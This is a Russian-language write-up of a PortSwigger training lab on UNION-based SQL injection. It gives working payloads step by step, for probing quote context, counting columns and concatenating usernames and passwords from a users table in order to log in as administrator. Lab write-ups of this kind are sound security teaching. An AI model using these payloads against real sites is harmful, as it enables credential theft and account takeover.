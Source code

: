 ```yaml
---
title: "SQL injection UNION attack retrieving multiple values in a single column"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)


## Scope

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Для решения лабораторной работы нужно выполнить атаку с помощью `SQL`-инъекции, войдя под пользователем `administrator`.


## Solution

Из условия лабы известно, что уязвимость находится в фильтре категорий. Поэтому возьму `URL` с фильтром `Accessories`:

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/filter?category=Accessories
```


Следующим моим шагом будет подбор обрамления. Предположу, что запрос выглядит так:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Тогда пейлоад должен иметь следующий вид:

```
Accessories' and false-- -
```

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/1.png){: height="200" .align-center}

Выдало пустую страницу без ошибок, значит в качестве обрамеления используется `'`.


Далее узнаю количество колонок в запросе с помощью `ORDER BY`:

```
Accessories' ORDER BY 10-- -Error
Accessories' ORDER BY 5-- - Error
Accessories' ORDER BY 3-- -Error
Accessories' ORDER BY 2-- - OK
```

Значит у нас используется 2 колонки в запросе. Попробую использовать `UNION` для отображения информации:

```
Accessories' UNION SELECT 1, 2-- -Error
Accessories' UNION SELECT 1, '2'-- -OK
```

Я получил вот такое отображение на страницу:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/2.png){: height="200" .align-center}

Значит отображается информация только из второй колонки, а мне нужно получить `login` и `password` из таблицы `table`. Это можно сделать с помощью двух запросов, либо же использовать конкатенацию строк с помощью `concat`. Мой пейлоад будет иметь следующий вид:

```
Accessories' UNION SELECT 1, concat('1', '2')-- -
```

А вот так это отображается на странице:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/3.png){: height="200" .align-center}

Теперь попробую получить нужные данные. Я добавил условие `0=1`. Теперь у меня отображается только вторая часть моего запроса, то есть логины и пароли:

```
Accessories' and 0=1 UNION SELECT NULL, concat(username, ':' ,password) FROM users-- -
```

Я получил следующий вывод:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/4.png){: height="200" .align-center}

Теперь зайду в аккаунт под пользователем `administrator`:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/5.png){: height="200" .align-center}

Победа)